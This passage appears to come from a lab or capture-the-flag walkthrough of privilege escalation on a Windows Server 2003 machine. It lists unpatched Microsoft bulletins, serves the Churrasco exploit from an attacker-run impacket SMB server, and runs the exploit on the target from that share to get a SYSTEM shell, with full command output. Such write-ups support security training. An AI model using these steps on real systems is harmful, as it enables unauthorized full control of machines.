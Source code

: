 ```
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
```

These are all potential exploits for our target machine. However this time, since the majority of them appears not to be working, we will search for known exploits online, and precisely for `Windows Server 2003 SP2 Build 3790`. 

This one seems to be working:

<https://github.com/Re4son/Churrasco/raw/master/churrasco.exe>


From our attacking machine we have to serve the exploit via a `smbserver`:


```
$ sudo python3 /opt/impacket/examples/smbserver.py exploit .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In order to execute `SYSTEM` commands, we have to download the script to the target machine and, using the `-d` switch, specify the commands we want to run:

```
c:\windows\system32\inetsrv>\\10.10.17.36\exploit\churrasco.exe -d whoami
\\10.10.17.36\exploit\churrasco.exe -d whoami
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 676 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```
